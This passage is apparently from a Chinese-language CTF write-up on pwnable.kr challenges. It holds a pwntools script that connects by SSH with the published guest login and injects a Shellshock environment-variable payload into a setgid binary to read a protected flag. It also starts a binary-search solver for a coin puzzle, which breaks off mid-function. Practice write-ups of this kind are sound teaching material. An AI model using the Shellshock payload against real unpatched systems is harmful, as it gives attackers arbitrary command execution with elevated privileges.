 题目源码

```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

程序目录权限(ls -l)

```
-r-xr-xr-x   1 root shellshock     959120 Oct 12  2014 bash
-r--r-----   1 root shellshock_pwn     47 Oct 12  2014 flag
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r--   1 root root              188 Oct 12  2014 shellshock.c
```

注意到 flag是shellshock_pwn可读的

所以我们可以利用./shellsock程序获得读权限，加上之前利用shellsock拼接的“cat flag”就可以读到flag了

Exp:

```python
#coding=utf-8
from pwn import *


shell=ssh(host='pwnable.kr',user='shellshock',password='guest',port=2222)

#shell.download_file("./shellshock.c")
#shell.download_file("./shellshock")

sh=shell.run('sh')
sh.sendline("env x='() { :;}; bash -c \"cat flag\" ' ./shellshock")
sh.interactive()
```

## 0x0B coin

称硬币找不同

直接二分就可

```python
#coding=utf-8
from pwn import *
import re #正则表达式取数

io=remote("pwnable.kr","9007")
io.recv()

def GetWeight(l,r):
    sendstr = ""
    if l==r:
        io.sendline(str(l))
    else :
        for i in range(l,r+1):
            sendstr = sendstr + str(i)+" "
        io.sendline(sendstr)
    ret = io.recvline()
    return int(ret)
        

def solve(num,chance):
```